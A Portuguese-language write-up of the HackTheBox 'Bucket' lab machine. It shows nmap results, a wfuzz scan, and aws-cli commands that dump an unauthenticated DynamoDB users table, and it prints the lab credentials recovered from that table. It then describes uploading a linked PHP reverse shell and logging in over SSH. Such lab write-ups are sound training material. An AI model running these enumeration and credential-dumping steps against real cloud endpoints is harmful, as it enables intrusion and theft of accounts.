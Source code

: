 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Bucket - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Y1obslX.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
awscli
curl
wfuzz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/4%OT=22%CT=1%CU=36786%PV=Y%DS=2%DC=T%G=Y%TM=5FF34D45
OS:%P=i686-pc-windows-windows)SEQ(SP=FD%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DS
OS:T11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 41.328 days (since Tue Nov 24 06:23:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   190.00 ms 10.10.14.1
2   192.00 ms bucket.htb (10.10.10.212)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, somos redirecionados para o dominio: bucket.htb
Portanto, vamos adiciona-lo no arquivo de hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 'bucket.htb  10.10.10.212' >> /etc/hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após isso conseguimos acessar a página web, após alguns testes, não foi possível encontrar outros diretórios e arquivos.

![Image](https://i.imgur.com/Wsd50kp.png)

Ao analisar o código fonte, podemos ver que possuimos um subdomain (s3):
![Image](https://i.imgur.com/tXc0CNj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos tentar encontrar diretorios nele com o wfuzz:
![Image](https://i.imgur.com/VppmJzb.png)

Podemos encontrar 2 diretórios:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
health
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o diretório shell, podemos perceber o serviço 'DynamoDB'.
![Image](https://i.imgur.com/RXhjaJf.png)


Para interagir com esse serviço, vamos utilizar a tool da própria AWS, conhecida como aws-cli

Após algumas horas lendo documentações, finalmente temos o comando correto para interagir:

![Image](https://i.imgur.com/Kiz6WsO.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

e b00m, temos o nome da tabela que está rodando lá :D
Vamos ver se conseguimos credenciais;


![Image](https://i.imgur.com/P3J8y29.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos credenciais :D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Listando os arquivos:
![Image](https://i.imgur.com/updbyQp.png)

Após isso, tentamos fazer o upload de uma reverse shell para o servidor.
No nosso caso vamos utilizar a shell do 'Pentest Monkeys' ![Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![Image](https://i.imgur.com/VLLIuAS.png)



Após testa-las, conseguimos realizar login via SSH com o usuário 'Roy'
![Image](https://i.imgur.com/0q73Xnv.png)

